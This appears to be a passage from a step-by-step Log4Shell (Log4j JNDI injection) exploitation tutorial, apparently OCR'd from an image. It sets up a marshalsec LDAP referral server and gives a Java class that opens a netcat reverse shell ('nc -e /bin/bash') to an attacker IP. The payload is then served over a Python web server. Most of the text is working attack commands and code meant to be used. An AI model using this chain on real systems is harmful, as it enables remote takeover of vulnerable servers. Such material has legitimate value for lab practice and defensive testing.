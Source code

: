 Step two: Installation Apply the below command so that your OS uses this java version.

```
sudo mkdir /usr/lib/jvm

cd /usr/lib/jvm

sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz     

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1

sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1

sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java

sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac

sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```

Step three: Installing the \[marshalsec] utility so you can host an \[ldap server] that redirects requests to your web server that will host the payload

```
git clone https://github.com/mbechler/marshalsec
sudo apt install maven
mvn clean package -DskipTests
```

Step four: Starting the \[LDAP server]

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-ip:8000/#Log4j"
```

Step five: preparing a \[java reverse shell] and hosting it in the web server. Below is a simple java reverse shell code

```java
public class Exploit { static { try { java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999"); } catch (Exception e) { e.printStackTrace(); } } }
```

Save it as \[Log4j.java] and compile it like below

```
javac Log4j.java
```

Step six: hosting your payload and starting your listener

```
python3 -m http.server
```
